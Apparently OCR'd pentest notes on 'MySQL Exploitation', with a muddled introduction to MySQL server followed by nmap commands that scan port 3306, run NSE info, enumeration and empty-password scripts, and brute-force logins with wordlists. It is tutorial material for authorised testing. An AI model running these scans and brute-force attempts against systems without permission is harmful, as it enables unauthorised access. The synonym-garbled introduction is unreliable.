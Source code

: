 *MySQL Exploitation


Introduction to MySQL-Server
-----------------------------
 - The base of MySQL will be MySQL server, which handles the majority of the database guidelines (or directions). MySQL server is accessible as a different program for use in a customer server organized condition and as a library that can be implanted (or connected) into separate applications. MySQL works alongside a few utility projects which bolster the organization of MySQL databases. Directions are sent to MySQL-Server by means of the MySQL customer, which is introduced on a PC. It runs port 3306 by default.


Further, use the following command to check whether the server is up and running or not.

# netstat -tnl




Scanning Mysql
--------------------

# nmap -sS -p- 192.168.1.4
# nmap -p3306 192.168.1.4

 - Let’s scan the port again to grab as many details as we can such as its banner. Mac address, etc.

# nmap -sV -p3306 192.168.1.4

 Retrieve MySQL information using NSE scripts

# nmap -p 3306 --script=mysql-info 192.168.1.216

# nmap -p 3306 --script mysql-enum 192.168.1.5

# nmap -p 3306 --script mysql-empty-password 192.168.1.5




 Brute force MySql
 ---------------------
# nmap -p3306 --script=mysql-brute --script-args userdb=user.txt,passdb=pass.txt 192.168.1.4

# nmap -T4 -p3306 -script mysql-brute --script-args mysql-brute.threads=100 192.168.1.5
